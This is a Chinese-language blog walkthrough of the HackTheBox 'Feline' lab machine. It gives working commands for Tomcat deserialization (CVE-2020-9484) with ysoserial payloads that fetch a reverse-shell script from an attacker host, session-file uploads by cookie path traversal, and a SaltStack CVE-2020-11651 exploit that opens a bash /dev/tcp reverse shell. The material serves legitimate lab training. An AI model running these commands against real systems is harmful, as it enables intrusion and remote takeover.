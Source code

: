 ```yaml
---
layout:     post
title:      HackTheBox Feline
subtitle:   HackTheBox
date:       2021-02-04
author:     heria
header-img: img/post-bg-swift.jpg
catalog: true
tags:
---
```




![image-20210325182701508](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182701508.png)



## 0X01CherryTree简介

CherryTree在kali内自带

![image-20210325182751781](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182751781.png)



类似markdown，用于做笔记

![image-20210325182808351](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182808351.png)

## 0X02渗透

![image-20210325182834919](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182834919.png)



-sC： 等价于–script=default，使用默认类别的脚本进行扫描 可更换其他类别

-sV  打开版本探测

-A同时打开操作系统探测和版本探测。

检测到开放22和8080端口

8080 ApacheTomcat 9.0.27

访问8080，virusBucket 发现上传点

![image-20210204165516800](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204165516800.png)

bp抓包 上传点/upload.jsp 更改上传文件名后报错，显示上传目录名

![image-20210204165601035](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204165601035.png)

搜索apache tomcat 9.0.27漏洞

**CVE-2020-9484** 

![image-20210204165819590](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204165819590.png)

https://www.cybersecurity-help.cz/vdb/SB2020052124

https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

![image-20210204170307853](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204170307853.png)

首先创建反弹shell的payload 

![image-20210204170601645](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170601645.png)



之后创建序列化session文件（使用curl下载payload）和另外一个序列化session文件(执行payload)

从https://github.com/frohoff/ysoserial

![image-20210204170737690](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170737690.png)

下载ysoserial反序列化工具

java -jar yso... 查看用法

![image-20210204170851836](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170851836.png)

java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'curl http://10.10.15.64/reverse.sh -o /tmp/reverse.sh' >downloadpayload.sh    （用来下载）

java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'bash /tmp/reverse.sh' >executepayload.sh (用来执行)

![image-20210204171546222](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204171546222.png)

创建一个curlcommands.sh文件 执行带有cookie和恶意代码的curl指令

文件内容

curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadpayload' -F 'image=@downloadpayload.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executepayload' -F 'image=@executepayload.session'

![image-20210204171708812](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204171708812.png)

python 开启http服务，nc监听   bash执行curlcommand脚本

![image-20210204172143924](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172143924.png)

拿到tomcat权限

![image-20210204172309822](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172309822.png)

![image-20210204172505614](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172505614.png)

netstat -ntulp 发现开放4505，4506端口

![image-20210204172619272](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172619272.png)

搜索发现为saltstack应用

继续搜索saltstack漏洞

 CVE-2020-11651 查找poc

![image-20210204172745247](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172745247.png)

https://github.com/jasperla/CVE-2020-11651-poc

（exploit.py 需要salt模块，需要pip3下载）

python3 exploit.py 发现作用在127.0.0.1:4505上，直接上传利用失败(module not found on the target system)，因此使用chisel建立tcp tunnel(use reverse portforwarding on prot 4506 to run exploit locally)

https://github.com/jpillora/chisel

依然通过python 开启http，目标端tomcat shell 执行curl下载

![image-20210204173634802](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204173634802.png)

chmod 加执行权限

客户端服务端分别启动，

![image-20210204173945157](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204173945157.png)

此时再次执行CVE-2020-11651/exploit.py 

![image-20210204174128307](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204174128307.png)

python3 exploit.py --help 查询指令 ![image-20210204174222116](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204174222116.png)



使用--exec参数执行反弹shell 成功弹回root权限

python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.15.68/7878 0>&1"'

![image-20210204174549490](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204174549490.png)



通过cat .bash_history，发现

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

![image-20210204180124213](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204180124213.png)

后续利用docker.sock漏洞暂时未触及

## 0x03参考链接

https://www.youtube.com/watch?v=2fn65MrXJ8o&t=313s

https://www.youtube.com/channel/UCh35oGf3_djXJbJVZ1KJ40g